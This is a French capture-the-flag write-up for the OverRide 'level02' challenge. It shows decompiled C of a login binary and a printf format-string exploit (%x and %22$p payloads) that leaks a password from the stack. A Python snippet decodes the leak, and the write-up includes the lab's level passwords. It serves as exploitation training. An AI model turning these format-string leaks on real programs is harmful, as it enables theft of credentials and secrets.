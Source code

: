 ```
level02 : PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```

![](Pasted%20image%2020240808042929.png)

```c
undefined8 main(void)

{
  int ret;
  size_t ptr;
  long lVar1;
  undefined8 *puVar2;
  undefined8 password [14];
  undefined8 level03Pass [6];
  undefined8 username [12];
  int passLen;
  FILE *fd;
  
  puVar2 = username;
  for (lVar1 = 12; lVar1 != 0; lVar1 = lVar1 + -1) {
    *puVar2 = 0;
    puVar2 = puVar2 + 1;
  }
  
  *(undefined4 *)puVar2 = 0;
  puVar2 = level03Pass;
  for (lVar1 = 5; lVar1 != 0; lVar1 = lVar1 + -1) {
    *puVar2 = 0;
    puVar2 = puVar2 + 1;
  }
  
  *(undefined *)puVar2 = 0;
  puVar2 = password;
  for (lVar1 = 12; lVar1 != 0; lVar1 = lVar1 + -1) {
    *puVar2 = 0;
    puVar2 = puVar2 + 1;
  }
  
  *(undefined4 *)puVar2 = 0;
  fd = (FILE *)0x0;
  passLen = 0;
  
  fd = fopen("/home/users/level03/.pass","r");
  if (fd == (FILE *)0x0) {
    fwrite("ERROR: failed to open password file\n",1,0x24,stderr);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  len = fread(level03Pass,1,41,fd);
  passLen = (int)len;
  ptr = strcspn((char *)level03Pass,"\n");
  *(undefined *)((long)level03Pass + ptr) = 0;
  if (passLen != 41) {
    fwrite("ERROR: failed to read password file\n",1,36,stderr);
    fwrite("ERROR: failed to read password file\n",1,36,stderr);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  fclose(fd);
  puts("===== [ Secure Access System v1.0 ] =====");
  puts("/***************************************\\");
  puts("| You must login to access this system. |");
  puts("\\**************************************/");
  printf("--[ Username: ");
  fgets((char *)username,100,stdin);
  ptr = strcspn((char *)username,"\n");
  *(undefined *)((long)username + ptr) = 0;
  printf("--[ Password: ");
  fgets((char *)password,100,stdin);
  ptr = strcspn((char *)password,"\n");
  *(undefined *)((long)password + ptr) = 0;
  puts("*****************************************");
  ret = strncmp((char *)level03Pass,(char *)password,41);
  if (ret == 0) {
    printf("Greetings, %s!\n",(char *)username);
    system("/bin/sh");
    return 0;
  }
  printf((char *)username);
  puts(" does not have access!");
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```

![](Pasted%20image%2020240808124601.png)

comme on peut le voir username est espacer de 48 par rapport a username dans la stack (0x70 => 0xa0)
ce qui corespond bien a 6 * 8 bit ( la taille de level03Pass)

![](Pasted%20image%2020240808124810.png)

on va leak la position de username dans la stack a l'aide de printf

```
(remote) level02@OverRide:/home/users/level02$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: BBBB %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
--[ Password: evil
*****************************************
BBBB ffffe440 0 65 2a2a2a2a 2a2a2a2a ffffe638 f7ff9a08 6c697665 0 0 0 0 0 0 0 0 0 0 0 0 0 34376848 61733951 574e6758 6e475873 664b394d feff00 42424242 25207825 20782520 does not have access!
```

on se rend compte que username est socker a la 28eme position dans la stack

donc pour afficher level03Pass a partir de la position 22 (28 - 6) sur une taille de 40 (8 * 5) qui est la longeur des precedents hash
donc on va print `%22$p %23$p %24$p %25$p %26$p`  

![](Pasted%20image%2020240808125529.png)

```
0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d
```
on va concatainer les addresse et a l'aide de python onb va retirer les `0x` a  l'aide de split ensuite on va convert en ASCII et ensuite on va passer en litle indian

```
evil = '0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d'

for part in evil.split('0x'):
    print(part.decode('hex')[::-1])
```

![](Pasted%20image%2020240808130521.png)

```
level 03: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```